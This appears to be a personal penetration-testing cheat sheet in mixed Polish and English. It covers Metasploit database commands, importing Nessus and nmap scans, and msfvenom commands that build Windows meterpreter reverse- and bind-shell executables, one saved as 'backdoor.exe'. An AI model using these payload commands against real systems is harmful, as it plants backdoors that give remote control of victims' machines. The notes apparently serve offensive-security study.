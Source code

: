 https://www.offsec.com/metasploit-unleashed/using-databases/

```bash
db_status # Show the current database status
db_connect # Connect to an existing database
db_import # Import a scan result file (filetype will be auto-detected)
db_nmap # skan nmap z uzupełnianiem bazy danych znlezionymi informacjami
creds # List all credentials in the database
hosts # List all hosts in the database
services # List all services in the database
jobs # pokaż exploity jakie aktualnie działają, np. tcp listener na danym porcie
kill # ubij job (np. listener, kiedy jakiś port jest zajęty)
```

## import z Nessus

https://www.makeuseof.com/how-to-install-nessus-kali-linux/

`New Scan`...
Wejść w wynik skanu
`Export`>`Nessus`(nie Nessus DB)

```bash
db_import /../report.nessus
vulns -p 445
search cve:2017 name:smb
```

## import z [[nmap]]

```bash
db_import ../raport.xml
```

# MSFVENOM (payload)
https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html

**Tutorial:** https://www.hackingarticles.in/msfvenom-tutorials-beginners/
Ciekawe payloady: https://www.hackingarticles.in/fun-metasploit-payloads/

**klasyczne payloady**
```bash
$ msfvenom -p /<OS>/<architektura>/<typ>/<protokół> jak się połączyć LHOST=IP LPORT=PORT -f format > path/to/file.format
```
```bash
$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.1.3 LPORT=4444 -f exe > 'backdoor.exe'# Generating malicious executable using msfvenom.
```
```bash
# Bind tcp meterpreter
$ msfvenom -p windows/meterpreter/bind_tcp -f exe > /root/Desktop/bind.exe
```
```bash
# Reverse tcp meterperter
$ msfvenom -p windows/meterpreter/reverse_tcp lhost=192.168.0.107 lport=5555 -f exe > / root/Desktop/reverse_tcp.exe
```
```bash
# HTTPS Payload
$ msfvenom -p windows/meterpreter/reverse_https lhost=192.168.0.107 lport=443 -f exe > /root/Desktop/443.exe
```
```bash
# Hidden Bind TCP Payload
# This payload hides on the background silently, while executed and does not reveal its presence if scanned by any port scanner.
```